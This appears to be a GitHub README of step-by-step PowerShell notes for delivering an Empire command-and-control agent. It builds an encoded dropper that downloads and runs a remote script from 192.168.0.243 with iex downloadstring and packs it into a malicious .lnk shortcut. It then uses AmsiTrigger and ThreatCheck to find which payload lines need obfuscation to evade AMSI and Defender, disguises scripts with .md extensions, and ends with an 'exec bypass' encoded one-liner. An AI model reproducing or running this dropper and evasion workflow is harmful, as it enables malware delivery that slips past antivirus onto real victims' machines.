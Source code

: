 #### Create initial execution dropper to run read.md which bypasses amsi and runs readme.md to execute empire
```powershell
$str= "iex (new-object system.net.webclient).downloadstring('http://192.168.0.243:8000/read.ps1')"
$initial = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```

#### Use lnk2pwn to create .lnk with "/c powershell -encoded $initial"
```powershell
java -jar .\lnk2pwn-1.0.0.jar
```

#### Check .ps1 payloads with AMSI Trigger prior to renaming extension to .md
```powershell
.\AmsiTrigger.exe -d -u http://192.168.0.243:8000/readme.ps1
.\AmsiTrigger.exe -d -u http://192.168.0.243:8000/read.ps1
```

#### Save $initial into a script and add "powershell -encoded"
```powershell
.\AmsiTrigger.exe -d -u http://192.168.0.243:8000/initial.ps1
```

#### ThreatCheck for Defender
```powershell
.\threatcheck.exe -u http://192.168.0.243:8000/readme.ps1 -e Defender
.\threatcheck.exe -u http://192.168.0.243:8000/read.ps1 -e Defender
.\threatcheck.exe -u http://192.168.0.243:8000/initial.ps1 -e Defender
```

#### Check .ps1 payloads with AMSI Trigger prior to renaming extension to .md to see what lines may needs obfuscation

#### Save $initial into a script initial.ps1 and add "powershell -encoded" so we can test it too
```powershell
.\AmsiTrigger.exe -d -u -f 3 http://192.168.0.243:8000/readme.ps1
.\AmsiTrigger.exe -d -u -f 3 http://192.168.0.243:8000/read.ps1
.\AmsiTrigger.exe -d -u -f 3 http://192.168.0.243:8000/initial.ps1 
```

#### One Liner
```powershell
powershell -exec bypass -encodedcommand $b64
```
